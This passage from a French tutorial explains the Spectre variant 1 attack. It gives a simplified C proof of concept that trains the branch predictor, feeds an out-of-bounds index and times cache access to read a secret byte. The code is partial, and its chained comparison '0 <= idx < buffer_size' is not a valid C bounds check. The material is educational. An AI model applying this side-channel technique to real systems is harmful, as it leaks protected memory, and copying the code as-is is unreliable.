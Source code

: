```c
     */
    if (0 <= idx < buffer_size) {
        x = x ^ paged_buffer[buffer[idx] * PAGE_SIZE];
    }
}
```

Un attaquant n'ayant accès qu'à cette fonction ne pourra à priori pas faire de buffer overflow pour essayer de sortir des informations qui ne sont pas dans le tableau `buffer`. En particulier, le contenu de la variable `secret` semble inatteignable. 

L'attaquant va utiliser la vulnérabilité présentée dans l'article sur [Meltdown et Spectre](/meltdown-spectre) qui explique en deux mots qu'il peut entraîner le processeur à suivre une branche lors d'une condition, puis, dans une optique d'optimisation, ce processeur exécutera le contenu de la branche en question la prochaine fois qu'il trouvera la condition, avant même d'avoir vérifié la validité de la condition. Bien entendu, si la condition s'avère fausse, le processeur annulera ses actions, sans pour autant effacer les mises en cache.

L'attaquant va donc entraîner le processeur à rentrer dans la condition de la fonction de la victime, donc l'habituer au fait que `0 <= idx < buffer_size`, puis une fois que le processeur est bien entraîné, l'attaquant va lui fournir une valeur qui n'est pas du tout dans cet intervalle. 

Voilà le code simplifié complété pour réaliser cette opération :

```c
/* Initialisation du buffer de 256 pages */
char paged_buffer[256 * PAGE_SIZE];

/* Le programme va entraîner 10 fois le processeur à prendre la branche puis changera d'index */
#define TRAIN 10
uint32_t get_index_access_time(int idx, int value) {
    flush(paged_buffer[value * PAGE_SIZE]); // On supprime la page de tous les niveaux de cache

    /* Un index valide est utilisé pour l'entraînement */
    int valid_idx = 2;
    for(int i = 0; i < TRAIN; i++) {
        my_protected_function(valid_idx);
    }

    /*
     * On accède ensuite à une zone mémoire qui n'est plus autorisée normalement
     * On va utiliser un index soigneusement choisi pour que la zone mémoire qui sera
     * accédée soit le premier octet du secret
     */
    my_protected_function(evil_idx);

    /*
     * La prédiction de branche devrait avoir lu la valeur du premier octet du secret 'S' ou 83 en décimal,
     * puis a dû accéder à l'index du tableau de page, mettant en cache la page à l'index 83.
     * Comme le processeur se rend compte de son erreur, les changements sont annulés, mais la mise
     * en cache existe encore. On va donc pouvoir mesurer les temps d'accès pour trouver cette fameuse
     * valeur.
     * Il faut faire cet entraînement pour chaque octet testé dans la boucle de la fonction main
     * Au moment où la boucle sera à 83 ou 'S' les instructions suivantes montreront que la valeur est en cache
     * On saura alors que le premier octet du secret est un 'S'
     */

    int before = __rdtsc(); // Donne le nombre de cycle d'horloge actuel
    access(paged_buffer[value * PAGE_SIZE]); // Accès à la zone mémoire
    int after  = __rdtsc(); // Donne le nombre de cycle d'horloge suite à l'accès mémoire
    return after - before; // On retourne la différence pour avoir le temps d'accès
}
```
